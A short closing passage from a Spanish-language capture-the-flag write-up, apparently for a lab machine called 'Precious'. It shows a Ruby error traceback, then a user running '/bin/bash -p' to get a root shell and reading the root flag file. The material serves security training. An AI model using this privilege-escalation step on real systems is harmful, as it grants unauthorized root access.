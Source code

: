 ~~~~
  6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
  5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
  4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
  3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
  2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
  1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
~~~~

Máquina terminada. Nos vemos en la siguiente.